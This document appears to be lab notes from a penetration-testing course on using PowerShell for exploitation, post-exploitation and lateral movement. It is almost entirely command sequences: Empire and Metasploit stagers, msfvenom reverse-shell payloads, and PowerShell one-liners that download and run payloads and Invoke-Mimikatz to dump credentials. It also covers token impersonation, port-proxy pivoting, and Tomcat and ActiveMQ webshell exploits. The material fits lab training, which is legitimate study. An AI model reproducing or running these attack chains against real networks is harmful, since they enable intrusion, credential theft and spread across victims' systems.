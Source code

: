 # Powershell Labs

## LeVeraging Powershell During Exploitation

`python3 smbexec.py 'local_admin:P@ssw0rd123'@172.16.80.100`
`ipconfig`
`echo %userdomain%`

>`sudo powershell-empire`
`uselistener http`
`info`
`set Host [our_ip]`
`execute`
`main`
`usestager multi/launcher`
`set listener http`
`execute` and copy paste decoded command in the shell and will get an agent in powershell empire.
`agents`
`interact [agent_name]`
`usemodule situational_awareness/network/arpscan`
`set CIDR 10.100.11.0/24`
`set Agent [agent_name]`
`execute`
`usemodule powershell/situational_awareness/network/portscan`
`set Hosts 10.100.11.100`
`set Agent [agent_name]`
`execute`

To transfer control to metasploit. In metasploit:

> `use exploit/multi/script/web_delivery`
`set target 2`
`set SRVHOST 175.12.80.21`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 175.12.80.21`
`exploit -j`

And in powershell-empire:
> `usemodule code_execution/invoke_metasploitpayload`
`set URL http://175.12.80.21:8080/JAFRM0WEjw6cf`
`set Agent [agent_name]`
`execute`

In metasploit we will get a meterpreter session:
> `use post/multi/manage/autoroute`
`set SESSION 1`
`run`
`use auxiliary/server/socks4a`
`set SRVHOST 175.12.80.21`
`run`
![new.png](Pictures/a10.png)
`use post/windows/manage/portproxy`
`set CONNECT_ADDRESS [our_ip]`
`set CONNECT_PORT 4444`
`set LOCAL_ADDRESS [interface_of_the_next victim]`
`set LOCAL_PORT 4444`
`set SESSION 1`
`run`
`use exploit/multi/http/tomcat_jsp_upload_bypass`
`set RHOST 10.100.11.100`
`set RPORT 8443`
`set LHOST [ip_address of the first target that we are able to access directly]`
`set payload java/jsp_shell_reverse_tcp`
`run`

Then generate payload:
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.100.11.101 LPORT=4444 -f exe > /tmp/payload.exe`
`cd /tmp && ppython3 -m http.server 8000`


Then create another proxy for transferring payload to tomcat:
> `use post/windows/manage/portproxy`
`set CONNECT_ADDRESS [our_ip]`
`set CONNECT_PORT 8000`
`set LOCAL_ADDRESS [interface_of_the_next victim]`
`set LOCAL_PORT 8000`
`set SESSION 1`
`run`

We then need to configure a new listener to accept the connection from our payload.exe once we execute it on the Tomcat system, but first, we need to kill our previous listener:
> `jobs -K`
`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 175.12.80.21`
`set LPORT 4444`
`exploit -j`

>`C:\Program Files\Apache Software Foundation\Tomcat 7.0>powershell -c iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload.exe', 'C:\Windows\Temp\payload.exe')`
`C:\Program Files\Apache Software Foundation\Tomcat 7.0>C:\windows\temp\payload.exe`

Obtaining hashes:

> `C:\Program Files\Apache Software Foundation\Tomcat 7.0> powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.100.11.101:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds`

psinject module in powershell-empire also can help.

***
***

## Powershell for Post-Exploitation and Lateral Movements

[https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/ActiveMQExP/ActiveMQExPV1.0.py](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/ActiveMQExP/ActiveMQExPV1.0.py)

`python ActiveMQExPV1.0.py -url http://172.17.80.100:8161/ -user admin -pass admin -shell cmd.jsp`

Then go to the url obtained.

> `use exploit/multi/script/web_delivery`
`set target 2`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LHOST 175.13.80.16`
`set LPORT 4444`
`set SRVHOST 175.13.80.16`
`set ExitOnSession False`
`exploit -j`

Copy paste the powershell command to the webshell and execute it then we will obtain meterpreter shell.

In meterpreter shell:
> `run autoroute -s 10.100.11.0/24`
`use incognito`
`list_tokens -u`
`impersonate_token ELS-CHILD\\local_admin`

In terminal start a python server:`python3 -m http.server 8000`

In meterpreter shell:
> `shell`
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.16:8000/PowerView.ps1'); Get-NetDomainController"`
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.16:8000/PowerView.ps1'); Find-LocalAdminAccess"`
Go back to meterpreter shell.
`rev2self` for getting back old priveleages.
`download c:\UAT\uat_test_account.txt /tmp/`
`use post/windows/gather/arp_scanner`
`set RHOSTS 10.100.11.0/24`
`SESSION 1`
`use post/windows/manage/portproxy`
`set CONNECT_ADDRESS 175.13.80.16`
`set CONNECT_PORT 4444`
`set LOCAL_ADDRESS 10.100.11.101`
`set LOCAL_PORT 4444`
`set SESSION 1`
`run`

> `use exploit/windows/local/powershell_remoting`
`set SESSION 1`
`set SMBUSER local_admin`
`set SMBPASS P@ssw0rd123`
`set SMBDOMAIN ELS-CHILD`
`set RHOSTS 10.100.11.100`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LHOST 10.100.11.101`
`set LPORT 4444`
`exploit -j`

To move to another host in same network we only need to some changes to the above module;
> `set SESSION 2`
`set RHOSTS 10.100.10.253`
`exploit -j`

***
***